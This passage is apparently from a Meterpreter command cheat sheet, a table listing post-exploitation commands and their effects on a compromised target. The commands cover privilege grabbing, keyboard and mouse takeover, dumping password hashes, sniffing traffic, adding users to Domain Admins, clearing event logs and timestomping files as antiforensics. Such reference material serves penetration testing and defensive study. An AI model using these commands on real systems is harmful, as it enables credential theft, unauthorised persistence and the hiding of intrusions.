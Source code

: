 | `getprivs`                                            | Get as many privileges as possible on the target.            |
| `uictl enable <keyboard/mouse>`                       | Take control of the keyboard and/or mouse.                   |
| `background`                                          | Run your current Meterpreter shell in the background.        |
| `hashdump`                                            | Dump all hashes on the target. use sniffer Load the sniffer module. |
| `sniffer_interfaces`                                  | List the available interfaces on the target.                 |
| `sniffer_dump <interfaceID> pcapname`                 | Start sniffing on the remote target.                         |
| `sniffer_start <interfaceID> packet-buffer`           | Start sniffing with a specific range for a packet buffer.    |
| `sniffer_stats <interfaceID>`                         | Grab statistical information from the interface you are sniffing. |
| `sniffer_stop <interfaceID>`                          | Stop the sniffer.                                            |
| `add_user <username> <password> -h <ip>`              | Add a user on the remote target.                             |
| `add_group_user <"Domain Admins"> <username> -h <ip>` | Add a username to the Domain Administrators group on the remote target. |
| `clearev`                                             | Clear the event log on the target machine.                   |
| `timestomp`                                           | Change file attributes, such as creation date (antiforensics measure). |
| `reboot`                                              | Reboot the target machine.             |                     
---